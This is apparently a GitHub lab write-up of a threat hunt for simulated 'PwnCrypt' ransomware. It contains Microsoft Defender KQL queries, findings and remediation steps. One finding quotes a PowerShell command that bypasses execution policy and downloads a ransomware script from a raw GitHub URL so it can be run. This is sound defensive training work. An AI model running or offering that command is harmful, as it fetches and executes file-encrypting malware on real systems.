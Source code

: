 # Zero-Day-Ransomware-PwnCrypt-Outbreak

<img width="1536" height="1024" alt="image" src="https://github.com/user-attachments/assets/84b28057-5767-4402-adaa-68f7214615ca" />

## 📖 Scenario

A new ransomware strain called PwnCrypt has emerged, using a PowerShell-based payload to encrypt files with AES-256 encryption and adding a .pwncrypt extension to targeted files. The CISO is worried about its potential spread to the corporate network and intends to investigate further.

## 🕵️‍♂️ Data Collection
📊 Inspect DeviceFileEvents logs in MS Defender for .pwncrpyt string

```kql
let suspectDevice = "windows10vm";
DeviceFileEvents
| where DeviceName == suspectDevice
| where FileName contains "pwncrypt"
| order by Timestamp desc
| summarize by Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
```
<img width="1621" height="663" alt="スクリーンショット 2025-08-05 11 04 54" src="https://github.com/user-attachments/assets/367446b4-c874-470f-8551-f09ae8f0df43" />

🔍 Findings
- Files appended with .pwncrypt indicate the ransomeware has spread to our systems
- Initiating process confirms PowerShell-based script at C:\programdata\pwnscript.ps1 using -ExecutionPolicy Bypass

📊 Inspect DeviceNetworkEvents for any "Invoke-WebRequest" 

```kql
let suspectDevice = "windows10vm";
DeviceNetworkEvents
| where DeviceName == suspectDevice and InitiatingProcessCommandLine contains "Invoke-WebRequest"
| summarize by Timestamp, DeviceName, RemoteUrl, InitiatingProcessFileName, InitiatingProcessCommandLine
```

<img width="1651" height="521" alt="image" src="https://github.com/user-attachments/assets/06e49924-f2ec-4816-b298-04dc301d8a20" />

🔍Findings
- Confirmed command line run by "labuser" to callout to github and save file locally. "pwncrypt.ps1 to C:\programdata "powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1"

## 🔬 Data Analysis

🤔 Hypothothis
- User "labuser," with admin permissions, ran command line code that downloaded PwnCrypt ransomware to the machine. Pwncrypt encoded files and demanded a bitcoin ransom.

🕵️ Evidence
- Data finding of DeviceNetworkEvents and DeviceFileEvents above.

## 🧩 Investigation

- Analysis of the pwncrypt.ps1 file indicates code associated with ransom ware.

## 🛠️ Remediation

🛑 Containment
- Block traffic to/from assoicated URL
- Isolate endpoints with pwncrypt.ps1 file

🚫 Eradication
- Delete pwncrypt.ps1 file from C:\programdata folder via script
- Terminate additional processes (schedule tasks, etc.)
- Scan network for other signs of infection

🔄 Recovery
- Restore endpoints from last known good backup
- Verify integridy of restored systems
